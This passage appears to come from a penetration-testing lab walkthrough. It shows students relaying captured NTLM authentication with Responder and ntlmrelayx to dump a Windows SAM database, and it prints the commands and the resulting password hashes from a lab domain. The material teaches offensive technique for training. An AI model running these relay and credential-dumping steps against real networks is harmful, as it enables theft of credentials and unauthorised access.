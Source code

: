 ```shell-session
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
<SNIP>  
```

Subsequently, students will start `ntlmrelayx` using `sudo` in the other terminal window or by switching to the `root` user using `sudo su`. They will utilize `ntlmrelayx` to dump the SAM database. Subsequently, they will have to specify the `-tf` (TargetFile) parameter with the `targets.txt` containing the computers that they can relay the authentication to. Also, students need to use `-smb2support` parameter that provides `SMBv2` support for hosts that require it.

Code: shell

```shell
sudo ntlmrelayx.py -tf ./targets.txt -smb2support
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo ntlmrelayx.py -tf ./targets.txt -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
<SNIP>
```

Subsequently, after students have started both of the tools, after a while, they will notice a request(s) being relayed to `ntlmrelayx.py` and further actions executed by the tool, such as a SAM dump containing the hashes of the users on the respective machine, containing the hash of `localws01`. Students will notice that one of the relayed authentications is a local administrator on one of the machines. With that kind of privilege, students were able to dump the SAM database.

```shell-session
<SNIP>
[*] SMBD-Thread-19: Connection from INLANEFREIGHT/PETER@172.16.117.3 controlled, attacking target smb://172.16.117.60
[*] SMBD-Thread-18: Connection from INLANEFREIGHT/RMONTY@172.16.117.3 controlled, but there are no more targets left!
[*] Target system bootKey: 0x563136fa4deefac97a5b7f87dca64ffa
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdb28300fbd0a0ae2ea455e9e391330b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
localws01:1002:aad3b435b51404eeaad3b435b51404ee:e4737f338324305993ed52f775a6d54d:::
[*] Done dumping SAM hashes for host: 172.16.117.50
<SNIP>
```
